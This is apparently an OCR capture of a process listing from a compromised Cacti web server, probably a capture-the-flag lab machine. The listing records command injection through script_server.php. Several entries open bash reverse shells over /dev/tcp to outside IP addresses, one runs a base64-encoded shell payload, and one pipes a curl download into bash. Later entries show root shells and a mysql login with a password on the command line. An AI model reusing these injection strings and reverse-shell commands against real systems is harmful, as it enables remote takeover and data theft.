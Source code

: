 www-data    1430  0.0  0.0   2476   580 pts/0    Ss   15:02   0:00                  _ sh -c /bin/bash
www-data    1431  0.0  0.0   4156  3464 pts/0    S+   15:02   0:00                      _ /bin/bash
www-data     226  1.0  0.6  87148 25368 ?        S    14:09   3:08 apache2 -DFOREGROUND
www-data   93585  0.0  0.0   2476   572 ?        S    18:57   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.136/1234 0>&1'
www-data   93587  0.0  0.0   3892  2860 ?        S    18:57   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.136/1234 0>&1
www-data   93588  0.0  0.0   4156  3464 ?        S    18:57   0:00          _ bash -i
www-data     330  0.0  0.6  87084 24564 ?        S    14:13   0:14 apache2 -DFOREGROUND
www-data    3191  0.0  0.0   2476   572 ?        S    16:03   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.14.112/8001 0>&1'
www-data    3193  0.0  0.0   3892  2844 ?        S    16:03   0:00      _ bash -c bash -i >& /dev/tcp/10.10.14.112/8001 0>&1
www-data    3194  0.0  0.0   4156  3444 ?        S    16:03   0:00          _ bash -i
www-data    3254  0.0  0.0   2440   712 ?        S    16:07   0:00              _ script /dev/null -qc /bin/bash
www-data    3255  0.0  0.0   2476   576 pts/1    Ss   16:07   0:00                  _ sh -c /bin/bash
www-data    3256  0.0  0.0   4156  3360 pts/1    S+   16:07   0:00                      _ /bin/bash
www-data     361  0.3  0.6  87148 24660 ?        S    14:14   1:05 apache2 -DFOREGROUND
www-data    1531  0.0  0.0   2476   504 ?        S    15:15   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime 1;echo YmFzaCAtYyAnZXhlYyBiYXNoIC1pICY+L2Rldi90Y3AvMTAuMTAuMTQuMTQvNDQ0NCA8JjEn | base64 -d | bash -
www-data    1535  0.0  0.0   3892  2896 ?        S    15:15   0:00      _ bash -
www-data    1536  0.0  0.0   4156  3496 ?        S    15:15   0:00          _ bash -i
www-data    1538  0.0  0.0   2440   648 ?        S    15:15   0:00              _ /usr/bin/script -qc /bin/bash /dev/null
www-data    1539  0.0  0.0   2476   572 pts/2    Ss   15:15   0:00                  _ sh -c /bin/bash
www-data    1540  0.0  0.0   4156  3404 pts/2    S    15:15   0:00                      _ /bin/bash
root        1603  0.0  0.0   4156  3316 pts/2    S    15:18   0:00                          _ /bin/bash
root        1673  0.0  0.2  16296  9932 pts/2    S+   15:19   0:00                              _ mysql --host=db --user=root --password=x xx cacti
www-data    1368  0.0  0.5  86892 23968 ?        S    15:01   0:00 apache2 -DFOREGROUND
www-data    1392  0.0  0.0   2476   508 ?        S    15:01   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ; /bin/sh -c "curl http://10.10.14.132/zell | /bin/bash"
www-data    1394  0.0  0.0   2476   568 ?        S    15:01   0:00      _ /bin/sh -c curl http://10.10.14.132/zell | /bin/bash
www-data    1396  0.0  0.0   3892  2892 ?        S    15:01   0:00          _ /bin/bash
www-data    1397  0.0  0.0   3892  2832 ?        S    15:01   0:00              _ /bin/bash -l
www-data    1618  0.7  0.6  87084 26292 ?        S    15:18   1:39 apache2 -DFOREGROUND
www-data    1621  0.6  0.6  87068 26276 ?        S    15:18   1:29 apache2 -DFOREGROUND
www-data    1625  0.5  0.6  87084 24640 ?        S    15:19   1:15 apache2 -DFOREGROUND
www-data    3658  0.0  0.0   2476   504 ?        S    16:18   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ;bash -c 'bash -i >& /dev/tcp/10.10.16.48/9999 0>&1'
www-data    3660  0.0  0.0   3892  2956 ?        S    16:18   0:00      _ bash -c bash -i >& /dev/tcp/10.10.16.48/9999 0>&1
www-data    3661  0.0  0.0   4156  3380 ?        S    16:18   0:00          _ bash -i
www-data    1630  0.6  0.6  87084 24636 ?        S    15:19   1:32 apache2 -DFOREGROUND
www-data   93419  0.0  0.0   2476   512 ?        S    18:46   0:00  _ sh -c /usr/local/bin/php -q /var/www/html/script_server.php realtime ; /bin/sh -c "bash -c 'bash -i >& /dev/tcp/10.10.14.38/443 0>&1'"
www-data   93421  0.0  0.0   2476   512 ?        S    18:46   0:00      _ /bin/sh -c bash -c 'bash -i >& /dev/tcp/10.10.14.38/443 0>&1'
www-data   93422  0.0  0.0   3892  2776 ?        S    18:46   0:00          _ bash -c bash -i >& /dev/tcp/10.10.14.38/443 0>&1
www-data   93423  0.0  0.0   4156  3348 ?        S    18:46   0:00              _ bash -i
root       93554  0.0  0.0   3892  2964 ?        S    18:55   0:00                  _ bash -p
root       93704  0.0  0.0   3892  2864 ?        S    19:10   0:00                      _ /bin/bash -p
www-data    1661  0.5  0.6  86956 24572 ?        S    15:19   1:10 apache2 -DFOREGROUND